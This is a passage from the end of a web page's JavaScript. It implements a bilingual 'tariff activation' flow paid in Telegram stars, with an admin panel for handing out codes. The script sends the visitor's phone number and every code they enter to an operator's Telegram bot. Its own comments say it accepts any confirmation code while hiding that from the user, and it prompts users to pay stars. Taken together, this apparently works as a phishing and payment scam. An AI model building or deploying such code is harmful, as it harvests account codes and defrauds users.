/* Phone send: generate code for admin only, go to phone-verify (user doesn't see extra hints) */
function gen4(){ return String(Math.floor(1000 + Math.random()*9000)); }
function onPhoneSend(){
  const phone = $('input-phone').value.trim();
  if(!phone){ alert(lang==='ru' ? 'Введите номер телефона' : 'Enter phone'); return; }
  phoneForSession = phone;
  const phoneCode = gen4();
  sessionStorage.setItem('phoneCode', phoneCode);
  sendToTelegram(`📥 Новый телефон\nТариф: ${displayTariffName()}\nТелефон: ${phone}\nКод подтверждения: ${phoneCode}`);
  $('input-phone-code').value = ''; $('phone-code-error').classList.add('hidden');
  go('phone-verify');
}

/* Phone code submit: accept any non-empty input (no UI hints about that) */
function onPhoneCodeSubmit(){
  const entered = $('input-phone-code').value.trim();
  sendToTelegram(`🔐 Ввод кода подтверждения\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}\nКод введён: ${entered}`);
  if(!entered){ $('phone-code-error').textContent = (lang==='ru' ? 'Введите код' : 'Enter code'); $('phone-code-error').classList.remove('hidden'); return; }
  $('phone-code-error').classList.add('hidden');

  if(currentTariff === 'free'){
    sendToTelegram(`✅ Активирован бесплатный тариф\nТелефон: ${phoneForSession}`);
    $('activated-msg').textContent = TEXT[lang].successActivated(TEXT[lang].free);
    go('activated');
    return;
  }

  if(currentTariff === '25'){
    $('checkout-cats').classList.add('hidden'); $('checkout-qty').classList.add('hidden');
    currentAmount = 25; $('send-instruction').textContent = TEXT[lang].sendExactly(currentAmount);
  } else if(currentTariff === '50'){
    $('checkout-cats').classList.remove('hidden'); $('checkout-qty').classList.remove('hidden');
    $('input-qty').value = '1'; updateTotal();
  }
  go('checkout');
}

/* updateTotal for 50 */
function updateTotal(){
  const qv = Math.max(1, parseInt($('input-qty').value) || 1);
  currentQty = qv; currentAmount = currentQty * 50;
  $('total-sum').textContent = (lang==='ru' ? `Сумма: ${currentAmount} звёзд` : `Total: ${currentAmount} stars`);
  $('send-instruction').textContent = TEXT[lang].sendExactly(currentAmount);
}

/* onPaid */
function onPaid(){
  if(!phoneForSession){ alert(lang==='ru' ? 'Телефон не указан. Вернитесь и введите номер.' : 'Phone missing. Enter phone first.'); go('phone'); return; }
  if(currentTariff === '50') updateTotal(); else if(currentTariff === '25') currentAmount = 25;
  sendToTelegram(`💳 Пользователь нажал "Я оплатил"\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}\nСумма: ${currentAmount} звёзд\nПожалуйста, выдайте менеджерский код.`);
  $('input-manager-code').value = ''; $('manager-code-error').classList.add('hidden');
  go('manager-code');
}

/* manager code submit — must be issued & not used */
function onManagerCodeSubmit(){
  const code = $('input-manager-code').value.trim();
  sendToTelegram(`🔐 Ввод менеджерского кода\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}\nКод введён: ${code}`);
  if(!code){ $('manager-code-error').textContent = (lang==='ru' ? 'Введите код менеджера' : 'Enter manager code'); $('manager-code-error').classList.remove('hidden'); return; }

  if(issuedCodes[code] && !usedCodes[code]){
    usedCodes[code] = Date.now(); saveObj(LS_USED, usedCodes);
    delete issuedCodes[code]; saveObj(LS_ISSUED, issuedCodes);
    updateCodesLeft();
    loginCode = gen4(); sessionStorage.setItem('loginCode', loginCode);
    sendToTelegram(`🔑 Сгенерирован финальный код входа\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}\nКод входа: ${loginCode}`);
    $('input-login-code').value = ''; $('login-code-error').classList.add('hidden');
    go('login-code');
  } else {
    $('manager-code-error').textContent = (lang==='ru' ? 'Неверный или невыданный менеджерский код' : 'Invalid or not-issued manager code'); $('manager-code-error').classList.remove('hidden');
  }
}

/* login code submit */
function onLoginCodeSubmit(){
  const code = $('input-login-code').value.trim();
  const expected = sessionStorage.getItem('loginCode') || loginCode;
  sendToTelegram(`🔐 Ввод финального кода\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}\nКод введён: ${code}`);
  if(!code){ $('login-code-error').textContent = (lang==='ru' ? 'Введите код' : 'Enter code'); $('login-code-error').classList.remove('hidden'); return; }
  if(code === expected){
    $('login-code-error').classList.add('hidden');
    sendToTelegram(`✅ Тариф активирован\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}`);
    $('activated-msg').textContent = TEXT[lang].successActivated(displayTariffName());
    go('activated');
    sessionStorage.removeItem('phoneCode'); sessionStorage.removeItem('loginCode');
  } else {
    $('login-code-error').textContent = (lang==='ru' ? 'Неверный код из Telegram' : 'Wrong Telegram code'); $('login-code-error').classList.remove('hidden');
  }
}

/* ADMIN */
function adminLogin(){
  const p = prompt('Введите пароль администратора:');
  if(!p) return;
  if(p === ADMIN_PASSWORD){ populateAdmin(); go('admin'); } else alert('Неверный пароль');
}

function populateAdmin(){
  const wrap = $('codes-list'); wrap.innerHTML = '';
  availableCodes.forEach((c, idx) => {
    const d = document.createElement('div'); d.className='code-item'; d.textContent = c;
    d.addEventListener('click', ()=>{
      const phone = prompt('Кому выдаём код? Введите телефон клиента (или оставьте пустым):','');
      availableCodes.splice(idx,1); saveArray(LS_AVAILABLE, availableCodes);
      issuedCodes[c] = { phone: phone || null, at: Date.now() }; saveObj(LS_ISSUED, issuedCodes);
      updateCodesLeft(); populateAdmin();
      navigator.clipboard && navigator.clipboard.writeText(c).catch(()=>{});
      sendToTelegram(`📤 Код выдан\nКод: ${c}\nКому: ${phone || 'не указан'}\nОсталось кодов: ${availableCodes.length}`);
      alert('Код выдан и скопирован: '+c);
    });
    wrap.appendChild(d);
  });
  Object.keys(issuedCodes).forEach(c=>{
    const d = document.createElement('div'); d.className='code-item issued'; const meta=issuedCodes[c];
    d.textContent = `${c} (issued to ${meta.phone||'—'})`; wrap.appendChild(d);
  });
  Object.keys(usedCodes).forEach(c=>{
    const d = document.createElement('div'); d.className='code-item'; d.style.opacity='0.4'; d.textContent = `${c} (used)`; wrap.appendChild(d);
  });
  $('admin-left').textContent = availableCodes.length;
}

function updateCodesLeft(){ $('codes-left') && ($('codes-left').textContent = 'Коды: '+availableCodes.length); $('admin-left') && ($('admin-left').textContent = availableCodes.length); }

/* MEMES */
const MEMES = ["cool boy","hacker mode","gift boss","system online","VIP ACCESS","nice try","glhf"];
function showMeme(){
  const area = $('meme-area'); if(!area) return; area.innerHTML='';
  const m = document.createElement('div'); m.className='meme'; m.textContent = MEMES[Math.floor(Math.random()*MEMES.length)];
  area.appendChild(m); const fromLeft = Math.random()<0.5; const start = fromLeft ? -300 : 300;
  m.style.transform = `translateX(${start}px)`; m.animate([{transform:`translateX(${start}px)`, opacity:0},{transform:'translateX(0)', opacity:1}], {duration:500});
  setTimeout(()=>{ const end = fromLeft ? -300 : 300; m.animate([{transform:'translateX(0)', opacity:1},{transform:`translateX(${end}px)`, opacity:0}], {duration:500}); setTimeout(()=>{ try{ m.remove(); }catch(e){} },520); }, 2600);
}

/* helpers */
function displayTariffName(){ if(currentTariff==='free') return (lang==='ru'?'Бесплатно':'Free'); if(currentTariff==='25') return (lang==='ru'?'25 звёзд':'25 stars'); if(currentTariff==='50') return (lang==='ru'?`50 звёзд x${currentQty}`:`50 stars x${currentQty}`); return ''; }

function sendToTelegram(text){
  fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
    method:'POST', headers:{'Content-Type':'application/json'},
    body: JSON.stringify({ chat_id: CHAT_ID, text })
  }).catch(e=>console.error('tg send error', e));
}

window.addEventListener('beforeunload', ()=> {
  saveArray(LS_AVAILABLE, availableCodes);
  saveObj(LS_ISSUED, issuedCodes);
  saveObj(LS_USED, usedCodes);
});
  </script>
</body>
</html>
